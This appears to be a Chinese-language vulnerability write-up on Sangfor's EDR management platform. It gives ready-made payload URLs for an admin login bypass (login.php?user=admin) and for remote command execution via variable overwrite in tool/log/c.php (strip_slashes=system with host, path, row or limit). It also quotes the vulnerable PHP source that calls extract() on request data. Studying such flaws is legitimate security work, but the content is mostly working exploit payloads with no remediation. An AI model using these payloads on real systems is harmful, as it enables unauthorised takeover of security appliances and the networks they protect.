


# 深信服EDR任意用户登录与命令执行漏洞分析

## 1.深信服EDR简介

终端检测响应平台（EDR）是深信服公司提供的一套终端安全解决方案，EDR 的管理平台支持统一的终端资产管理、终端安全体检、终端合规检查，支持微隔离的访问控制策略统一管理，
支持对安全事件的一键隔离处置，以及热点事件 IOC 的全网威胁定位，历史行为数据的溯源分析，远程协助取证调查分析。

## 2.深信服EDR漏洞

### 2.1.后台任意用户登录漏洞

```
payload：https://IP地址/ui/login.php?user=admin
```

注意后面的admin是必须存在的用户，也就是说EDR设备上必须存在admin的用户，这样才能直接登录admin，若访问的是一个不存在的用户，那么必然无法登录。



2.2.任意命令执行漏洞

```
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&host=id
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&path=id
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&row=id
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&limit=id
```

原理就是典型的变量覆盖漏洞。



tool/log/c.php 部分源码：

```
<?php  
call_user_func(function() {
    ....

    /**
     * 显示表单
     * @param array $params 请求参数
     * @return
     */
    $show_form = function($params) use(&$strip_slashes, &$show_input) {
        extract($params);
        $host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
        $path  = isset($path)  ? $strip_slashes($path)  : "";
        $row   = isset($row)   ? $strip_slashes($row)   : "";
        $limit = isset($limit) ? $strip_slashes($limit) : 1000;

        // 绘制表单
        echo "<pre>";
        echo '<form id="studio" name="studio" method="post" action="">';
        $show_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
        $show_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
        $show_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \s[w|e]\s"));
        $show_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
        echo '<input type="submit" id="button">';
        echo '</form>';
        echo "</pre>";
    };

    /**
     * 入口函数
     * @param array $argv 配置参数
     * @return
     */
    $main = function($argv)
        use(&$collect) {
        extract($argv);
        if (!isset($limit)) {
            return;
        }
        $result = $collect($path, $row, $limit, $host);
        if (!is_array($result)) {
            echo $result, "\n";
            return;
        }
        if (!isset($result["success"]) || $result["success"] !== true) {
            echo $result, "\n";
            return;
        }
        foreach ($result["data"] as $host => $items) {
            $last = "";
            foreach ($items as $item) {
                if ($item["name"] != $last) {
                    $last = $item["name"];
                    echo "\n[$host] -> $last\n\n";
                }
                echo $item["item"], "\n";
            }
        }
    };

    set_time_limit(0);
    echo '<html><head><meta http-equiv="Content-Type" Content="text/html; Charset=utf-8"></head>';
    echo '<body bgcolor="#e8ddcb">';
    echo "<p><b>Log Helper</b></p>";
    $show_form($_REQUEST);
    echo "<pre>";
    $main($_REQUEST);
    echo "</pre>"; 
});
?>
```